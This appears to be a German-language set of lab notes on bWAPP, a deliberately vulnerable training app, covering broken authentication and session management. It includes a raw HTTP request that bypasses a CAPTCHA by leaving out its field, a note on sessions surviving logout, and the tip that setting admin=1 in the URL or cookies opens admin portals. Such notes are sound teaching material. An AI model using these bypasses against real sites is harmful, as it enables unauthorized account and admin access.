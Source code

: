 ### // A2 - Broken Authentication	/	Session	Management //
---
##### Broken Authentication - CAPTCHA Bypassing
Sicherstellen das captcha_box.php nicht geladen wird. Dort wird die Session Varible geladen.
$_SESSION["captcha"] erfordert eine prüfung. Mittels Burp kann eine übermittlung von captcha user vermieden werden.
~~~
POST /bWAPP/ba_captcha_bypass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/bWAPP/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
~~~
---
##### Broken Authentication - Logout Management
> Öffnet man ein neues Tab und meldet sich von der Seite ab, bleibt die Session vorhanden.

---
##### Broken Authentication - Password Attacks
---
##### Broken Authentication - Weak Passwords
---
##### Session Management - Administrative Portals
In der URL und den Cookies:
~~~
admin=1
~~~
